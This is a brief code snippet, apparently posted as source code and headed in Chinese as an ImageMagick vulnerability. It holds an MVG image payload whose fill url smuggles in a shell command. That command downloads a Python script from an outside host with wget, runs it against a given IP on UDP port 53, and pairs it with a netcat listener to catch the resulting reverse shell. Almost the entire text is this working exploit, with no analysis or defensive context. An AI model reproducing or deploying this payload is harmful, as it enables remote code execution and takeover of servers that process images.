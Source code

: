 #imageMagic的漏洞

push graphic-context
viewbox 0 0 60 40
fill 'url(https://example.com/image.jpg"|wget http://dgykt.cnovit.com/temp/back.py -O  /x.py && python /x.py  27.24.190.251  53 udp")'
pop graphic-context

#本地监听：
nc -l -p 53 -u -vv
